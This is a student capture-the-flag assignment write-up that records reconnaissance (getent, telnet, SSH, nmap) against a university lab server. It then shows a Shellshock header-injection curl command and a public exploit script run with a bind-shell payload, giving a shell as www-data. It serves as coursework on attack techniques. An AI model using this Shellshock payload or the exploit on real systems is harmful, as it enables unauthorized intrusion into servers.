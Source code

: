 ```yaml
---
title: Assignment 6
author:
  - Hendrik Werner s4549775
  - Aniek Den Teuling s1010747
date: \today
fontsize: 12pt
geometry: margin=5em
header-includes:
  - \usepackage{listings}
---
```


# Capture the Flag

To establish the servers IP address from the hostname we used `getent`:

```
$ getent hosts ossec-host.cs.ru.nl
131.174.142.7   ossec-host.cs.ru.nl
```

The first thing we tried, was connecting to the server via telnet, but the connection was refused:

```bash
$ telnet ossec-host.cs.ru.nl
Trying 131.174.142.7...
telnet: Unable to connect to remote host: Connection refused
```

Next we tried connecting via SSH, and there is indeed an SSH server running on the host, but connecting requires a password that we do not know:

```
$ ssh root@ossec-host.cs.ru.nl
root@ossec-host.cs.ru.nl's password:
Permission denied, please try again.
```

We can use `nmap` to scan for open ports on the host server:

```
nmap 131.174.142.7

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-10 19:00 CET
Nmap scan report for ossec-host.cs.ru.nl (131.174.142.7)
Host is up (0.073s latency).
Not shown: 937 filtered ports, 61 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 84.46 seconds
```

The only two open ports are port 22 for ssh, and port 80 for http.

We tried to exploit the Shellshock vulnerability over HTTP, but for some reason it did not work. We asked the student assistants about this, but they could not identify the problem either. The command we used was

\begin{lstlisting}[breaklines=true]
curl -H "User-Agent: () { :;}; /bin/ls" 'http://ossec-host.cs.ru.nl/cgi-bin/fortunecow.sh'`
\end{lstlisting}

The student assistants recommended downloading a ready made exploit script, so we found one on <https://exploit.db.com/exploits/34900/>, and successfully used it to get a shell on the remote host.

\begin{lstlisting}[breaklines=true]
$ python2 34900.py rhost=ossec-host.cs.ru.nl rport=12345 payload=bind pages=/cgi-bin/fortunecow.sh
[-] Trying exploit on : /cgi-bin/fortunecow.sh
[!] Successfully exploited
[!] Connected to ossec-host.cs.ru.nl
ossec-host.cs.ru.nl> uname -a
Linux ossec-host 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
ossec-host.cs.ru.nl> whoami
www-data
ossec-host.cs.ru.nl> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
\end{lstlisting}

As you can see the server uses Ubuntu with Linux kernel version 3.13.0, and we do not have root privileges, and are logged in as user `www-data`.

